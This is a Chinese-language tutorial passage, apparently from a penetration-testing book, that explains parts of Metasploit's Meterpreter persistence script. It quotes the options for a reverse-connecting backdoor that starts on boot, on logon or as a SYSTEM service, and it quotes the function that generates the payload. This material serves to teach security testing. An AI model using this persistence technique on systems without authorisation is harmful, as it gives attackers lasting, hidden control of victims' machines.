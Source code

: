 代码从声明在脚本中使用的变量开始。您可以看到一些常见变量，例如`rhost、rport、payload_type`，我们在整个利用过程中一直在使用。

```
@exec_opts = Rex::Parser::Arguments.new(
"-h" => [ false, "This help menu"],
"-r" => [ true, "The IP of the system running Metasploit listening for the connect back"],
"-p" => [ true, "The port on the remote host where Metasploit is listening"],
"-i" => [ true, "The interval in seconds between each connection attempt"],
"-i" => [ true, "The interval in seconds between each connection attempt"],
"-X" => [ false, "Automatically start the agent when the system boots"],
"-U" => [ false, "Automatically start the agent when the User logs on"],
"-S" => [ false, "Automatically start the agent on boot as a service (with SYSTEM privileges)"],
"-A" => [ false, "Automatically start a matching multi/handler to connect to the agent"],
"-L" => [ true, "Location in target host where to write payload to, if none \%TEMP\% will be used."],
"-T" => [ true, "Alternate executable template to use"],
"-P" => [ true, "Payload to use, default is windows/meterpreter/reverse_tcp."]
)
meter_type = client.platform 
```

脚本的下一部分包括必须与脚本一起传递的不同参数（标志）。具有`true`值的参数是必须的标志，其值必须由渗透测试人员传递。具有`false`值的参数是可选的。

```
# Usage Message Function
#-------------------------------------------------------------------------------
def usage
print_line "Meterpreter Script for creating a persistent backdoor on a target host."
print_line(@exec_opts.usage)
raise Rex::Script::Completed
end
# Wrong Meterpreter Version Message Function
#-------------------------------------------------------------------------------
def wrong_meter_version(meter = meter_type)
print_error("#{meter} version of Meterpreter is not supported with this Script!")
raise Rex::Script::Completed
end 
```

脚本的下一部分包括函数声明。前两个函数通常在所有 meterpreter 脚本中都可用。使用函数用于显示脚本的介绍性消息。它包含有关脚本用途的简短描述。`wrong_meter_version()`用于验证脚本是否支持 meterpreter 版本。一些脚本不支持较旧的 meterpreter 版本，因此验证可能会有所帮助。

```
# Function for Creating the Payload
#-------------------------------------------------------------------------------
def create_payload(payload_type,lhost,lport)
print_status("Creating Payload=#{payload_type} LHOST=#{lhost} LPORT=#{lport}")
payload = payload_type
pay = client.framework.payloads.create(payload)
pay.datastore['LHOST'] = lhost
pay.datastore['LPORT'] = lport
return pay.generate
end 
```
